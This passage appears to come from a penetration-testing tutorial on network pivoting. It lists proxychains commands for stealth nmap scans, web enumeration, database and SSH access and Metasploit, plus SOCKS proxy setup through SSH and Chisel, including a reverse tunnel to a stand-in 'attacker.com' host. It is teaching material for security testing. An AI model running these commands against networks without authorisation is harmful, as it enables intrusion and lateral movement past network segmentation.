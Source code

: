 ```bash
# Network scanning through proxy
proxychains nmap -sS -Pn 192.168.1.0/24    # Stealth scan through proxy
proxychains nmap -sV -p 80,443,22,3389 192.168.1.100 # Version detection

# Web enumeration through proxy
proxychains gobuster dir -u http://192.168.1.100 -w /usr/share/wordlists/dirb/common.txt
proxychains nikto -h http://192.168.1.100

# Database connections through proxy
proxychains mysql -h 192.168.1.200 -u root -p
proxychains psql -h 192.168.1.201 -U postgres

# SSH connections through proxy
proxychains ssh user@192.168.1.150

# File transfers through proxy
proxychains wget http://192.168.1.100/file.txt
proxychains curl -O http://192.168.1.100/file.txt

# Metasploit through proxychains
proxychains msfconsole
# Then use auxiliary modules for internal network scanning

# Proxychains troubleshooting
# Test proxy connectivity
proxychains curl http://ipinfo.io            # Check external IP through proxy

# Debug mode
proxychains4 -f ~/.proxychains/proxychains.conf -q curl http://192.168.1.100
# -f: Specify config file
# -q: Quiet mode

# Why Proxychains is crucial for pivoting:
# - Redirects any TCP-based tool through proxies
# - Supports complex multi-hop proxy chains
# - Enables network tools in segmented environments
# - Provides DNS resolution through proxy
# - Works with most penetration testing tools
```

### **SOCKS Proxy Setup and Management**

**What SOCKS proxies provide:** Protocol-agnostic proxy servers that relay network connections, supporting both TCP and UDP traffic through pivot points.

**Why SOCKS proxies are versatile:** Support multiple protocols, work with most applications, provide authenticated access, and enable complex network routing scenarios.

```bash
# Creating SOCKS proxies through various methods

# Method 1: SSH Dynamic Port Forwarding
ssh -D 1080 user@pivot.com                  # SOCKS5 proxy on port 1080
ssh -f -N -D 1080 user@pivot.com           # Background SOCKS proxy

# Method 2: Chisel SOCKS proxy
# Server (attacker machine)
./chisel server --port 8080 --reverse --socks5

# Client (pivot machine)
./chisel client attacker.com:8080 R:socks   # SOCKS proxy on attacker

# Method 3: Using Metasploit SOCKS proxy
# From meterpreter session
```